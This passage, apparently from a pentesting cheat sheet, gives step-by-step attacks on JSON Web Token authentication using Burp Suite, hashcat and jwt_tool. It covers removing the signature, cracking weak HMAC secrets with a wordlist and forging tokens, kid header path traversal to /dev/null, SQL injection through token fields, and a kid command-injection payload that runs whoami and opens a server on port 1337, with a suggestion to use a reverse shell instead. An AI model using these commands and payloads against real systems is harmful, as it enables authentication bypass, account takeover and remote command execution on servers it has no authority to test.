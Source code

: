 4. ****Signature not being checked****

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Tab or JOSEPH.
4. Change Payload section and Remove the Signature completely or try changing somecharacters in signature
5. Done, Forward the Request.
```

5. ****Crack the secret key****

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. If JWT-Heartbreaker Plugin is installed then weak secret-key will directly be shown to you.
																			OR
3. Copy JWT Token and store it in a text file then usse Hashcat to crack the Secret key using below command.
		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --force" 
		"hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --show" //this will show cracked secret-key
																			OR
3. Use Jwt_Tool to crack the secret key using below command:
			"python3 jwt_tool.py <JWT> -C -d secrets.txt"
4. Now Use the Secret key to forge the request using jwt.io or jwt_tool with option "-p"
5. Done, Use the generated token in request and forward the request.

* You can also find any leaking secret key in jwt.json config file.
```

6. **Attacks using kid in JWT token.**

```python
Use arbitrary files to verify
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. If there is kid in header section of JWT_token then forge a new JWT token using jwt_tool
		'python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""' 
* Alternatively, we may utilise the content of any file in the web root, such as CSS or JS, to validate the Signature.
		'python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"'
4. Manipulate payload section and now use the generated token in request.
5. Done, Forward the Request. 

SQL injection
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Plugin tab and manipulate kid with sqli payload.
4. You can try SQLi not only in kid but in any field of payload section.
		"python3 jwt_tool.py <JWT> -I -pc name -pv "admin' ORDER BY 1--" -S hs256 -k public.pem"
5. Done, Forward the request and escalate sqli further.

Command injection
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Plugin tab and manipulate kid with os commands payload.
	"kid: key.crt; whoami && python -m SimpleHTTPServer 1337 &"
4. Now use the forged JWt token in request
5. Check if you can connect to the server on port 1337 or instead use reverse shell in payload and check if you get connection back
6. DOne

```

